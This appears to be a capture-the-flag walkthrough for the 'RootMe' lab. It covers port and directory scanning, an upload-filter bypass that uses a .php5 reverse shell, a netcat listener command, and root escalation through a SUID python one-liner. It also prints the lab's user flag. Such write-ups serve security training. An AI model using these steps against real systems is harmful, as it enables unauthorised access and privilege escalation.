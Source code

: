 # RootMe


- Deploy the machine

	no answer needed

- Scan the machine, how many ports are open?

	- `nmap <TARGET_IP>`
	- `2`

- What version of Apache are running?

	- `nmap -sV <TARGET_IP>`
	- `2.4.29`

- What service is running on port 22?

	- `ssh`

- Find directories on the web server using the GoBuster tool.

	no answer needed

	- `gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

- What is the hidden directory?

	- `/panel/`

- Find a form to upload and get a reverse shell, and find the flag. user.txt

	- Go to `http://<TARGET_IP>/panel/` with a browser
	- Change the default IP address in reverse-shell.php5 with your IP address. (php5 because php is not allowed.)
	- Upload the reverse-shell.php file.
	- On your machine execute `nc -lvnp 1234`
	- You should get a shell.
	- `find / -name user.txt`
	- `cat /var/www/user.txt`
	- `THM{y0u_g0t_a_sh3ll}`

- Search for files with SUID permission, which file is weird?

	- `find / -user root -perm /4000`
	- `/usr/bin/python`

- Find a form to escalate your privileges.

	no answer needed

- root.txt

	- Go to [gtfobins-python-suid](https://gtfobins.github.io/gtfobins/python/#suid)
	- `/usr/bin/python -c 'import os;os.execl("/bin/sh","sh", "-p")'`
	- `cat /root/root.txt`
	- `THM{********_**********}`